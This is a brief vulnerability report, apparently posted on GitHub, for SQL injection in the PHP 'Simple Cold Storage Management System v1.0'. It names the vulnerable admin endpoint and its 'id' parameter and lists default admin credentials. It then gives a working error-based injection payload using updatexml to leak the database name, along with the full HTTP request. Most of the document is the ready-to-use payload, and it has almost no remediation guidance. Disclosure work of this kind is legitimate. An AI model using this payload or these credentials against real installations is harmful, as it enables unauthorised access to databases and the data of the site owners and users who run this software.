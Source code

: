 # Simple Cold Storage Management System v1.0 by oretnom23 has SQL injection

BUG_Author: oner

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15088/simple-cold-storage-management-system-using-phpoop-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /csms/admin/storages/manage_storage.php?id=

Vulnerability location: /csms/admin/storages/manage_storage.php?id=, id

dbname =csms_db,length=7

[+] Payload: /csms/admin/storages/manage_storage.php?id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /csms/admin/storages/manage_storage.php?id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=d8pesjl7i2jtmf2qddggbp7q0b
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191013912-3a3628c2-c6bc-4b4c-8ea2-a3ded0fc585c.png)
